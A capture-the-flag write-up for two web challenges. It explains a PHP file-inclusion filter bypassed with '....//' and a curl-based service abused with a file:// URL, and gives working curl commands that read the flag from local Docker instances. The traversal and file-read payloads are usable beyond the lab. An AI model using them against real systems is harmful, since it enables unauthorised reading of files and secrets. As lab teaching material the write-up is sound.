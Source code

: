 # Web Challenges

### Index
___
1. [Web Ministrypalace](#web-ministrypalace)
2. [Web CaaS](#web-caas)

### Web Ministrypalace
___
![](images/web-ministrypalace.png)

There's not much here except the different language options at the top right corner of the page, which are links to the following:
```html
<a href="?lang=en.php">EN</a>
<a href="?lang=qw.php">QW</a>
```

The `index.php` file provided contains the following php snippet:
```php
<?php
$lang = ['en.php', 'qw.php'];
    include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
?>
```
The above php snippet does the following:
1. If the `GET` paramater is empty it loads either `en.php` or `qw.php` at random from the `pages` directory .
2. It tries to prevent a _directory traversal_ attack by replacing `'../'` with an empty string `''`.
    * A _directory traversal_ vulnerability allows an attacker to read an arbitrary file from the target system by specifying its path.
    * eg) `http://target.com/?q=/etc/passwd`
    * the directive `../` is a relative path to the parent directory from the current directory.

We can bypass the filter with `'....//'`, since the first matching `'../'` will get replaced by `''` and the outer `'../'` gets preserved.

Looking at the `Dockerfile` provided, the `flag` is located in the `root` directory of the web app. 
```Dockerfile # Copy challenge files
COPY challenge /www
COPY flag /
```
Now we need to locate the `flag` relative to the `pages` directory. 
```shell
$ find . 2>/dev/null               
.
./build_docker.sh
./challenge
./challenge/index.php
...
./challenge/pages
./challenge/pages/qw.php
./challenge/pages/en.php
./flag
```

We can test our exploit on the local docker instance first with the following command.
```shell
$ curl -s "http://172.17.0.2/?lang=....//....//flag" | grep -oE "CHTB{.*}"
CHTB{f4k3_fl4g_f0r_t3st1ng}
```

Success! Running the same command on the URL provided will gives us the flag.

```Flag = CHTB{b4d_4li3n_pr0gr4m1ng} ```

___

### Web CaaS
___
![](images/web-caas.png)
The website seems to execute a curl command with the host provided. 
![](images/web-caas-invalid.png)
After testing arbitary hostnames the command executes only upon entering a valid URL such as `http://172.17.0.2`.
![](images/web-caas-valid.png)

Let's analyse the source code provided to understand this better.
- `index.php`
    - It allows is to perform a `GET` or `POST` request to the routes `'/'` and `'/api/curl'` respectively, which in turn execute a method from `CurlController`.

```php
<?php 
date_default_timezone_set('UTC');

spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

$router = new Router();
$router->new('GET', '/', 'CurlController@index');
$router->new('POST', '/api/curl', 'CurlController@execute' );

$response = $router->match();

die($response);          
```
- `CurlController.php`
    - `index()` just routes the user to `index.html` page
    - `execute()` checks if the `ip` parameter of the POST request is set, creates a new command with the url value passed in the request body, excutes it and returns a JSON object. 
```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```
- `CommandModel.php`
    - the constructor intialiases the curl command.
    - `exec()` calls the inbuilt php `exec()` function to execute the command.
```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```
Since a valid URL can have many different protocols such `http, https, ftp, file,` etc., we can use the file protocol to retrieve the `flag`.

Once again by looking at the `Dockerfile` provided, the `flag` is located in the `root` directory of the web app. 
```Dockerfile 
# Copy challenge files
COPY challenge /www
# Copy flag
COPY flag /
```

We can test our exploit on the local docker instance first by running the following command.
```shell
$ curl -X POST -F "ip=file://localhost/flag" "http://172.17.0.2/api/curl" | grep -oE "CHTB{.*}"
CHTB{f4k3_fl4g_f0r_t3st1ng}
```

Success! Running the same command on the URL provided will gives us the flag.

```Flag = CHTB{f1le_r3trieval_4s_a_s3rv1ce}```